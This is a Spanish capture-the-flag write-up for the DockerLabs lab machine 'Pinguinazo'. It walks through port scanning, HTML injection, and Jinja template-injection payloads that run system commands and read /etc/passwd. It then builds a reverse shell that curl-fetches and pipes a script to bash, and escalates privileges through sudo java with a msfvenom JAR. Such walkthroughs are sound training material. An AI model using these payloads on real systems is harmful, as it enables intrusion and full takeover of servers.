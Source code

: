 # Máquina pinguinazo

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/xeNVTA5B#RXNj1lKF2Gab1HwAWE1SdMtb8CFPJh4le7jsSWjZ7qc)

![imagen](https://github.com/user-attachments/assets/f59831aa-e3cb-4b74-b7c6-8db50066bf78)


- **Nombre de la Máquina:** Pinguinazo
- **Sistema Operativo:** Linux
- **Dificultad:** Easy
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - **HTML Injection:** Permite ejecutar código HTML malicioso en la página web de Pinguinazo.
  - **Server-Side Template Injection (SSTI):** Aprovechada para ejecutar comandos en el servidor mediante plantillas mal configuradas.
- **Escalada de Privilegios:**
  - Aprovechamiento de `sudo java` para ejecutar código como root sin autenticación, utilizando un archivo JAR malicioso generado con `msfvenom`.

 
Aquí tienes el texto reescrito con otras palabras:

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/e686028a-5f9b-414e-846b-dc082e9cdc1a)

Nos muestra que el puerto 5000 está abierto. Realizamos un análisis más detallado para determinar qué servicio está ejecutándose en ese puerto.

```bash
sudo nmap -p 5000 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/7537dd41-333f-4089-b7a3-09d00afe69be)

- Puerto 5000: servicio upnp?

El primer paso es examinar los vectores de entrada disponibles en el puerto 5000. Descubrimos que es una plantilla generada con Jinja.

![imagen](https://github.com/user-attachments/assets/d3fb3e36-a6f4-4e43-81c1-09dd68106ff4)

Continuamos con el análisis y descubrimos una página web con un formulario sencillo que solicita cierta información. Vamos a verificar si es vulnerable a la inyección de HTML. Escribimos el siguiente código en el campo PinguNombre:

```html
<marquee>Pwned</marquee>
```

Y comprobamos que es vulnerable.

![imagen](https://github.com/user-attachments/assets/6112910f-5514-4e04-b74b-7fada8b19fe2)

Intentamos hacer un SSTI (Server Side Template Injection)
`{{5*5}}`

![imagen](https://github.com/user-attachments/assets/24f0e930-aabd-4372-9f65-d6d64b5a67b1)

Y vemos que es vulnerable a este ataque.

Ahora es momento de ejecutar comandos de Linux a través de la vulnerabilidad detectada. Al navegar por Internet, encontramos varias páginas que nos ofrecen payloads y comandos ya listos para usar.

En esta página [web](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) encontramos varios payloads útiles.

Vamos a ejecutar uno para determinar qué usuario somos:

```html
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![imagen](https://github.com/user-attachments/assets/45211a9d-b405-4d3d-95c8-587ec6ab50e8)

Ejecutando el comando `id` vemos que pertenecemos al grupo pinguinazo.

También podremos leer el `/etc/passwd`.

```html
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```

![imagen](https://github.com/user-attachments/assets/c3ff9fb7-be24-4d92-991b-e1aabba1438c)

Ahora que podemos ejecutar comandos a nivel de sistema, es momento de establecer una reverse shell para obtener acceso completo al servidor.

Primero, abrimos un puerto en nc en modo de escucha con el siguiente comando en nuestra máquina atacante:

```bash
nc -nlvp 443
```

![imagen](https://github.com/user-attachments/assets/f76d4ab8-a266-412a-a3c5-9ff990d8beaf)

Estamos tratando de obtener acceso completo al servidor a través de una reverse shell. Sin embargo, debido a las restricciones de la plantilla Jinja, no podemos ejecutar directamente una reverse shell con el comando típico. Por lo tanto, creamos un script bash en nuestra máquina atacante y lo servimos a través de HTTP para que el servidor vulnerable lo descargue y ejecute.

### Pasos detallados:

1. **Creación del script de reverse shell:**
   Creamos un script básico en bash con el siguiente contenido:
   
   ```bash
   bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'
   ```
   Guardamos este script como `reverse_shell.sh`.

   ![imagen](https://github.com/user-attachments/assets/e88e1aa5-545e-4ed6-ac51-0deedd11c2de)

2. **Servidor HTTP:**
   Usamos Python para abrir un servidor HTTP en el puerto 80 y poder compartir el script. Esto se hace ejecutando el siguiente comando en nuestra máquina atacante:
   
   ```bash
   python3 -m http.server 80
   ```

3. **Descargar y ejecutar el script desde el servidor vulnerable:**
   Utilizamos el siguiente comando en la web vulnerable para descargar y ejecutar nuestro script de reverse shell:

   ```html
   {{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://172.17.0.1/reverse_shell.sh | bash').read() }}
   ```

### Explicación de los pasos:

1. **Script de reverse shell:**
   - El script bash contiene el comando necesario para abrir una reverse shell y conectar de vuelta a nuestra máquina atacante en el puerto 443. 
   - Esto nos permite ejecutar comandos en el servidor víctima desde nuestra máquina.

2. **Servidor HTTP con Python:**
   - Servimos el script a través de HTTP utilizando el módulo `http.server` de Python. Esto es conveniente porque casi todas las distribuciones de Linux tienen Python preinstalado, y es fácil de usar.
   - El servidor HTTP permite que el servidor vulnerable descargue nuestro script cuando solicitamos la URL `http://172.17.0.1/reverse_shell.sh`.

3. **Descarga y ejecución del script:**
   - En lugar de intentar ejecutar directamente una reverse shell (lo cual podría ser bloqueado o restringido por la configuración del servidor), descargamos el script desde nuestra máquina atacante y lo ejecutamos.
   - Esto nos da una forma de superar las restricciones de la plantilla Jinja y obtener acceso completo al servidor.

Siguiendo estos pasos, logramos establecer una conexión de reverse shell y obtener control sobre el servidor objetivo, eludiendo las restricciones iniciales impuestas por el entorno de la plantilla Jinja.

![imagen](https://github.com/user-attachments/assets/65206fa1-5c61-438e-9ef8-aa6f884352aa)

## Escalada de privilegios
Para realizar la escalada de privilegios en el servidor comprometido, aprovechamos los permisos de ejecución del comando `java` como usuario root sin requerir contraseña.

### Paso a paso para la escalada de privilegios:

1. **Verificación de permisos:**
   Al ejecutar `sudo -l`, confirmamos que tenemos la capacidad de ejecutar `java` como root sin necesidad de ingresar contraseña.

   ![imagen](https://github.com/user-attachments/assets/19cbc6a4-8ea7-4397-ba2b-6ff652a631df)

2. **Investigación y preparación:**
   Investigamos en una fuente confiable [web](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-java-privilege-escalation/) que detalla cómo podemos escalar privilegios usando `sudo java`.

3. **Creación del archivo JAR malicioso:**
   Utilizamos `msfvenom` para generar un archivo JAR que contenga un payload de reverse shell. Esto se logra con el siguiente comando:
   ```bash
   msfvenom -p java/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f jar -o shell.jar
   ```

4. **Configuración de la reverse shell:**
   Configuramos nuestra máquina atacante para escuchar conexiones entrantes en el puerto 4444:
   ```bash
   nc -nlvp 4444
   ```

5. **Servir el archivo JAR a través de HTTP:**
   Iniciamos un servidor HTTP en nuestra máquina atacante para que el servidor vulnerable pueda descargar el archivo JAR:
   ```bash
   python3 -m http.server 81
   ```
   En la máquina víctima, descargamos el archivo JAR utilizando `curl`:
   ```bash
   curl http://172.17.0.1/shell.jar -o shell.jar
   ```

6. **Ejecución del exploit:**
   Finalmente, ejecutamos el comando `java` con privilegios de sudo para ejecutar el archivo JAR malicioso desde la ubicación temporal:
   ```bash
   sudo /usr/bin/java -jar /tmp/shell.jar
   ```

7. **Obtención de acceso root:**
   Con el comando anterior, logramos establecer una conexión de reverse shell como usuario **root** en nuestra máquina atacante, que está a la escucha en el puerto 4444.

   ![imagen](https://github.com/user-attachments/assets/79a596bb-58a0-4b45-b219-dbaa9977e2a1)

### Explicación:
- **Paso 1:** Verificamos los permisos de sudo para `java` que nos permiten ejecutar comandos como root.
- **Paso 2:** Investigamos y preparamos el exploit siguiendo las instrucciones de una fuente confiable.
- **Paso 3 y 4:** Creamos un archivo JAR malicioso con un payload de reverse shell y configuramos nuestra máquina para recibir la conexión entrante.
- **Paso 5:** Utilizamos un servidor HTTP para servir el archivo JAR malicioso al servidor vulnerable.
- **Paso 6:** Ejecutamos el comando `java` con sudo para iniciar la reverse shell desde el archivo JAR.
- **Paso 7:** Confirmamos que la escalada de privilegios fue exitosa al recibir una shell como root en nuestra máquina atacante.

Siguiendo estos pasos detallados, conseguimos obtener acceso root en el servidor mediante una escalada de privilegios utilizando `sudo java`. Este método nos permitió sortear las restricciones de seguridad y obtener el control completo del sistema comprometido.
